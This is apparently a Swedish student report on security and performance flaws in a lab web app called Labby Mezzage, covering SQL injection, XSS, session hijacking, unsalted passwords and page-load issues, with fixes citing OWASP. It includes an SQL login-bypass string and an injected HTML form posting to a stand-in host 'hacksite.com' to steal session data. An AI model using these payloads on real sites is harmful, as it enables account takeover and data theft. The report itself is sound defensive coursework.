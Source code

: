 Hampus Jarleborn - HJ222HI

# Rapport

## Säkerhetsproblem

## SQL Injections

##### Beskrivning

SQL injections är när användaren skickar in egna SQL satser för att komma åt eller förstöra information på sida. Det krävs dock att sidan använder en databas, för annars finns det inget att skicka förfrågningar till.[1]

##### Följder

Som det står i texten över så kan en användare om SQL injections är möjliga komma åt saker som lösenord och annan känslig data, och använda dessa på de sett dom finner bäst. Och det är sällan eller aldrig bra.


#### I Labby Mezzage

I Labby Mezzage finns det möjligheter för att göra SQL injections, tillexempel kan man logga in som senaste inloggade användaren genom att skriva in vilken mail adress som helst som email och sedan skriva 1'or'1'='1 som då gör att det alltid blir true.

##### Förslag på lösning

Lösningen skulle jag säga är att istället för att skriva SQL sataserna som dom är gjorde i Labby Mezzage så bör man parametrisera dom istället för att konkatenera dom.
Man kan också skydda sig mot detta genom att använda storedprocedures och på så viss inte vissa SQL satsen.[1]




## XSS (Cross site scripting)

##### Beskrivning

Cross site scripting eller XSS är när en använadere lyckas stoppa in kod som hen själv har skrivit i din sida. Detta sker allt som oftast genom inputs. Och så kan hen föra in kod som kan ändrar vad sidan kan göra eller hur den ser ut.


#####Följder

XXS kan vara farligt då det gör så "hacker"-användaren kan stjäla information i form av känslig data om antingen andra användaren eller själva utvecklaren. "hacker"användaren kan också ändra vad sidan gör så att den blir obrukbar och på så sätt inte används och då tjänar ju inte utvecklaren några pengar.[2]

##### Förebyggande åtgärder

Det viktiga är att man validerar man ska alltid se till så att man säkrar att det som kommer in till sidan är det man vill att det ska vara och inget annat. Framförallt ska man se till så att man inte kan stoppa in taggar, varken script eller HTML. Man kan också göra en så kallad white-list validation där man kräver vissa tecken och eller längder på det användaren matar in.

#### I Labby Mezzage

I Labby Mezzage kan man inte mata in script taggar, men däremot så kan man mata in HTML och CSS. Detta gör att man kan påverka sidans utseende. Detta kanske låter harmlöst men man kan till exempel dölja fältet där man matar in meddelandet och sedan göra ett eget, som inte bara skickar ett meddelande till sidans server utan som också skickar vidare användarens sessionID och uppgifter. Det ända man hade behövt göra är att skriva detta i meddelande rutan

 <form action="hacksite.com/HackTheTHing.php">
   E-post:

  <input type="text" name="epost" value="exampel@ex.com">
  <br>
  Message:
 <input type="text" name="message" value="">
  <br><br>
  <input type="submit" value="Submit">
 </form>


##### Förslag på lösning

Som jag skrev ovan så borde man valdiera bättre och på så viss inte låta taggar hamna på sidan. ## Session Hijacking

##### Beskrivning

Session Hijacking är när en "hacker"-användare stjäler en annan användares session, detta kan tillexempel görs genom att man lurar dom att klicka på en länk som i det dolda skickar vidare information om deras session och eller cookie till "hacker"-användaren. Denne kan sedan mata in session/cookie IDet i sin egen sesson och på så sätt ta över den andra användarens inlogging. [3]

##### Förebyggande åtgärder

Först och främst så kan måste man precis som med XSS validera allt väldigt noga. Det är också viktigt att man förstör sessionen när användaren loggar ut för då så loggas även "hacker"-användaren ut.

#### I Labby Mezzage
I Labby Mezzage kan man med hjälp av XSS stjäla användarens sessions föratt sedan användadet för att logga in.

##### Förslag på lösning

Som jag skrev ovan om XSS så behövd det valideras mera. Sen så behöver man förstöra sessionen när användaren loggas ut så att även "hacker"-användaren loggas ut.


## Brist på salt

##### Beskrivning

Brist på salt kan göra maten smaklös. Nä men skämt och sido, om man inte haschar eller krypterar lösenord så sparas dom i klartext i databasen vilket gör att alla som har tillgång till den ser dom, både utvekclare och eventuella hackers. [4]


##### Förebyggande åtgärder

Att alltid se till att hascha alla lösenord så att dom inte sparas i klartext i databasen

#### I Labby Mezzage

vid inloggining så krypteras eller haschas lösenordet. Detta ser man om man kollar i /lib/login.js där vakren hasch eller salt används för att de kryptera lösenordet

##### Förslag på lösning

Är att tillexempel använda ett salt som man defingerar och sedan kör lösenordet igenom. [4]


## Prestandaproblem Det finns både inline scripts och inline css detta gör att sidan blir långsammare att ladda. Hade allt legat i en fil så hade det gått mycekt snabbare att läsa in. Nu måste webläsaren gå igenom hela sidan och rendera olika saker om varandra och det tycker inte webläsaren om. Man går också en bättre structur om man delar upp olika saker i oliak filer beroedne på innehåll.

Appliaktionen läser på alla sidor in två filer som heter MessageBoard.js och Message.js dessa används dock inte på alla sidor och detta gör att sidan skickar flemeddelanden. Detta gör att sidan skickar HTTP request ionödan vilket gör att sidan blir långsammare.

Det finns även javascriptfiler som laddas in i headern, så borde det inte göras. Dom borde laddas in i botten så att alla HTML renderas innan javascripten laddas. Sidan hade också blivit snabbare om javascriptfilerna var minifierade för då hade det helt enklet varit mindre kod att läsa in. Ett bra verktyg för detta är http://jscompress.com/ där kopierar man in sin kod och så renderar dom om den till en fil med bara en rad.

## Mina Egna övergripande reflektioner Denna uppgiften har varit väldigt rolig, det är ju lite av en pojkdröm att kunna hacka. Det har också varit väldigt givande att prova då det skapat en större förståelse för hur lätt det är att bryta igenom dålig kod. En sak som gör mig lite nervös var att jag tycket det var svårt att hitta prestanda problem. Och det känns som att jag bara har pekat ut dom självklar och jag misstänker att det finns fler. Men jag har läst på vilekt gjorde att jag hittade lite till och jag tror att jag kommer bli en bättre kdoare om jag fortsätter läsa på.

### Källor

[1] OWASP foundation, "Top 10 2013-A1-Injection", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A1-Injection [Hämtad: 1 december, 2015].

[2] OWASP foundation, "Top 10 2013-A3-Cross-Site Scripting", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS) [Hämtad: 1 december, 2015].
[3] OWASP foundation, "Top 10 2013-A2-Broken Authentication and Session Management", 23 Juni 2013 [Online] Tillgänglig: https://www.owasp.org/index.php/Top_10_2013-A2-Broken_Authentication_and_Session_Management [Hämtad: 3 december, 2015].

[4] wikibooks, "Lösenordshantering - MD5 och salt", 19 februari 2010 [Online] Tillgänglig: https://sv.wikibooks.org/wiki/L%C3%B6senordshantering_-_MD5_och_salt [Hämtad: 4 december, 2015].
